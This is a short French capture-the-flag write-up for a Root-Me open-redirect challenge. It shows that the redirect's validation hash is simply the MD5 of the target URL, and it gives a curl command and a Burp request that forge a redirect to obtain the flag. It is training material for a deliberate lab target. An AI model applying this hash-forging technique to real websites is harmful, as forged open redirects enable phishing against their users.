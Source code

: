 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect

Ici, on peut remarquer qu'il existe 3 liens avec un hash de validation pour le serveur 
Exemple:

‘‘‘
<a href="?url=https://facebook.com&amp;h=a023cfbf5f1c39bdf8407f28b60cd134">facebook</a>
‘‘‘

On peut deviner ici que le hash est le nom du site en MD5

Encore avec le curl 
‘‘‘
curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o rootme.txt
‘‘‘

Ici -G et -d va permettre d'envoyer des données en GET et -o va recevoir dans un fichier text la réponse 

Ou bien avec BURP 

On récupére dans le proxy la requete quete du lien 
On injecte notre URL + hash dans le repeater

‘‘‘ 
GET /web-serveur/ch52/?url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371
‘‘‘

Et la réponse nous donne notre flag !